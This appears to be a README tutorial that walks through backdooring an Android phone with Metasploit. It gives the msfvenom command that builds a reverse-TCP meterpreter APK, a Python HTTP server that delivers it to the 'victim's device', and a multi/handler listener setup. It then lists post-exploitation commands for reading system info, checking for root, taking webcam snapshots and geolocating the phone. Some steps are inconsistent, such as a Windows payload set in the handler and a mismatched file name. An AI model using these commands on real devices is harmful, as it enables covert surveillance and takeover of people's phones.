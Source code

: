 ## TERMINAL-1. 


STEP 1 -  sudo su 

STEP 2 -  cd

STEP 3 -  cd

STEP 5 -  msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.74 LPORT=4444 R> filename.apk 

______________________________________________________________________________________________________________________________________________________________________________________

Here's what each option in the command means:

______________________________________________________________________________________________________________________________________________________________________________________

|–platform android: set the target platform to android

|-p android/meterpreter/reverse_tcp: set the payload to a reverse TCP meterpreter

|LHOST=192.168.0.74: set the local host to the kali linux machine ip address

|LPORT=4444: set the local port to whatever port you want

______________________________________________________________________________________________________________________________________________________________________________________



payload will be generated. Open the file explorer in kali,

look for the payload then open a new terminal in that location where there is payload. 



## TERMINAL-2.



STEP 6 -  python3 -m http.server     (running a simple http server so that the payload can be downloaded on the victims machine.)



## now go back to the TERMINAL-1.



STEP 7 -  use exploit/multi/handler      (command designed for creating reverse shell connections.)

STEP 8 -  set payload windows/meterpreter/reverse_tcp   

STEP 9 -  set LHOST 192.168.0.74       (set LHOST <Kali Linux IP> which was given in the payload as well)

STEP 10 -  set LPORT 4444               (set LPORT <port> the same port number that was given while creating the payload)

STEP 11 -  exploit        (to run the commands you can use either "exploit" or "run" command)

STEP 12 -  help       (to view the command that can be run after the sucessfull reverse shell of android)

______________________________________________________________________________________________________________________________________________________________________________________


To download the payload in victim's device you need to open the browser and type 



STEP 13 -  192.168.0.74/payload.apk     (kali linux ip address which is used in the lhost/the payload file name)

STEP 14 -  hit enter 

STEP 15 -  The payload will start downloading.

______________________________________________________________________________________________________________________________________________________________________________________




# COMMANDS :

=> sessions  (if this command is not working enter exit then enter this command)

=> sessions -i 1

=> sysinfo
              
=> pwd
              
=> check_root
              
=> webcam_list

=> webcam_snap -i 1
              
=>  geolocate
